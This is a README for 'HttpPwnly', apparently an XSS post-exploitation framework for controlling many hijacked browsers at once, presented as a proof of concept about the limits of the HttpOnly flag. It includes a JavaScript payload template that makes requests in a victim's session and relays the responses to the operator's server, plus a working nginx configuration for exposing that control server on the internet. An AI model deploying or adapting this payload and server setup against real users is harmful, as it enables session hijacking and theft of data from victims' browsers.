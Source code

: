 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using nginx for this. This is a working nginx config file:
```
server {
    listen 80;
    server_name example.com;

    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
server {
    listen 443 ssl;
    server_name example.com;
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
```
